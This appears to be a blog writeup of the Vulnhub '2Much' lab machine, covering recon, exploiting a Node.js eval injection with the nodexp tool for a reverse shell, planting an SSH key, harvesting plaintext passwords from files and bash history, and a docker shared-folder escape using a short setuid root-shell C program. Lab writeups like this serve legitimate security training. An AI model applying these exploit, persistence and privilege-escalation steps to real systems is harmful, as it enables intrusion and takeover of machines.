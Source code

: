 ```yaml
---
layout: post
title: Vulnhub - 2Much writeup
date: 2019-02-01 8:00 PM
---
```


## Nmap

![](images/2much/nmap.png)

So there seems to be lot of services running. We'll start with port `80`.

***

## HTTP - port 80

![](images/2much/website.png)

There seems to be having lot of other vulnerable machines in it. so now we know that most of those `http` services are just some other vulnerable machine/application but that won't give us access to the main machine.

So I started to look at the port `8081`. When we try to visit that we get `hello undefined`.

![](images/2much/8081.png)

I spent sometime looking around the website but didn't found anything at all so I decided to fuzz using `ffuf`


```
http://192.168.1.121:8081/?name=ls
```

This gives a node error.

```bash
ReferenceError: sadas is not defined
    at eval (eval at <anonymous> (/home/4ndr34z/n-rce/app.js:5:23), <anonymous>:1:1)
    at /home/4ndr34z/n-rce/app.js:5:23
    at Layer.handle [as handle_request] (/home/4ndr34z/n-rce/node_modules/express/lib/router/layer.js:95:5)
    at next (/home/4ndr34z/n-rce/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/home/4ndr34z/n-rce/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/home/4ndr34z/n-rce/node_modules/express/lib/router/layer.js:95:5)
    at /home/4ndr34z/n-rce/node_modules/express/lib/router/index.js:281:22
    at Function.process_params (/home/4ndr34z/n-rce/node_modules/express/lib/router/index.js:335:12)
    at next (/home/4ndr34z/n-rce/node_modules/express/lib/router/index.js:275:10)
    at expressInit (/home/4ndr34z/n-rce/node_modules/express/lib/middleware/init.js:40:5)
```

But if we enter anything in qoutes it display that name. so if we do `?name='mzfr'` it will display `Hello mzfr`

![](images/2much/inc-mzfr.png)


After searching for a while I found a [exploit for Node.js](https://kalilinuxtutorials.com/nodexp/).

I ran the exploit as

```bash
python2.7 nodexp.py --url="http://192.168.0.111:8081/?name=[INJECT_HERE]"
```

And then got a meterpreter shell and from there I got myself another reverse shell.

![](images/2much/meter.png)

![](images/2much/rev.png)

and in the `4ndr34z` home directory I found the `user.txt` file.

![](images/2much/user.txt)

***

## Privilege Escalation

First I added my `public key` file in `/home/4ndr34z/.ssh` folder under `authorized_keys` file and then got a stable SSH connection.

![](images/2much/ssh.png)

In that same directory I found a folder named `.mystuff` which had a file name `.cred` having password for `admin`.

![](images/2much/admin-cred.png)

`admin:hakkeBakkeSkogen#12`

I spent sometime trying to find something but nothing worked. Then I noticed that `.bash_history` aren't linked to `/dev/null` so I read those and found something interesting in `4ndr34z` `.bash_history`

![](images/2much/history.png)

`root:3236$fsdfzcv_cs`

![](images/2much/ssh-docker.png)

But now we are inside a `docker` and also I noticed a file named `tdl.txt`, the same file was in `/home/4ndr34z/ftp/` this could mean that it's sharing a folder with the machine. We can exploit this by SSH as root on the docker and leave an `SUID` in that folder and then come back on the machine and run that SUID to get the root shell.

```c
int main(void) {
       setgid(0); setuid(0);
       execl("/bin/sh","sh",0);
}
```
I compiled a binary having this C code. And then transfered that compiled binary using `wget` and then did `chmod 4755 root` to make it an SUID. All this has to be done from within the `docker` i.e after doing `ssh root@127.0.0.1 -p23`

__NOTE__: Even though `wget` is not installed we can just install it using `apt install wget` since we are `root` on the docker.

![](images/2much/root-shell.png)

![](images/2much/root.png)

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”. And if you'd like to support me considering [donating](https://mzfr.github.io/donate/) 😄
